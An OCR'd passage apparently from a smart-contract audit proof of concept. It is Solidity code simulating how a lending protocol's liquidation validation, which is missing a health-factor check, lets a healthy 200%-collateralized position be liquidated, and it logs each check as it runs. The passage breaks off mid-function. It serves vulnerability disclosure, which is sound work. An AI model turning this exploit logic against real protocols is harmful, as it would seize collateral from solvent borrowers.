 ```solidity
    event HealthyPositionLiquidated(address indexed victim, uint256 collateralValue, uint256 borrowedAmount);
    
    function demonstrateVulnerability() external {
        victim = address(0x1);
        liquidator = msg.sender;
        
        // Setup: Victim has healthy position (200% collateralization)
        console.log("=== HEALTHY POSITION LIQUIDATION EXPLOIT ===");
        console.log("Victim collateral value: $", COLLATERAL_VALUE / 1e18);
        console.log("Victim borrowed amount: $", BORROWED_AMOUNT / 1e18);
        console.log("Collateralization ratio: 200% (HEALTHY - should NOT be liquidatable)");
        
        // Simulate the vulnerable cross-chain liquidation
        bool liquidationSuccess = _simulateVulnerableLiquidation();
        
        if (liquidationSuccess) {
            console.log("\n❌ EXPLOIT SUCCESSFUL!");
            console.log("✅ Healthy position was liquidated illegitimately");
            console.log("✅ Liquidator seized collateral from overcollateralized borrower");
            
            emit HealthyPositionLiquidated(victim, COLLATERAL_VALUE, BORROWED_AMOUNT);
        }
    }
    
    function _simulateVulnerableLiquidation() internal pure returns (bool) {
        // This simulates the vulnerable _validateAndPrepareLiquidation() function
        // which MISSING the health factor check
        
        LiquidationParams memory params = LiquidationParams({
            borrower: address(0x1),
            repayAmount: REPAY_AMOUNT,
            srcEid: 101,
            lTokenToSeize: address(0x2),
            borrowedAsset: address(0x3),
            storedBorrowIndex: 1e18,
            borrowPrinciple: BORROWED_AMOUNT,
            borrowedlToken: address(0x4)
        });
        
        console.log("\n--- Simulating Vulnerable Validation Logic ---");
        
        // ✅ Check 1: Liquidator != Borrower (PASSES)
        bool check1 = params.borrower != address(0x999); // liquidator address
        console.log("Check 1 - Liquidator != Borrower:", check1 ? "PASS" : "FAIL");
        
        // ✅ Check 2: Repay amount > 0 (PASSES)
        bool check2 = params.repayAmount > 0;
        console.log("Check 2 - Repay amount > 0:", check2 ? "PASS" : "FAIL");
        
        // ✅ Check 3: Within close factor limits (PASSES)
        uint256 maxLiquidation = (BORROWED_AMOUNT * 50) / 100; // 50% close factor
        bool check3 = params.repayAmount <= maxLiquidation;
        console.log("Check 3 - Within close factor:", check3 ? "PASS" : "FAIL");
        console.log("  Max liquidation allowed:", maxLiquidation / 1e18);
        console.log("  Attempting to liquidate:", params.repayAmount / 1e18);
        
        // ❌ MISSING CHECK: Health factor validation
        console.log("\n❌ MISSING CHECK: Health factor validation");
        console.log("❌ Should check: borrowed > collateral");
        console.log("❌ Actual state: borrowed ($1000) < collateral ($2000)");
        console.log("❌ Position is HEALTHY but liquidation proceeds anyway!");
        
```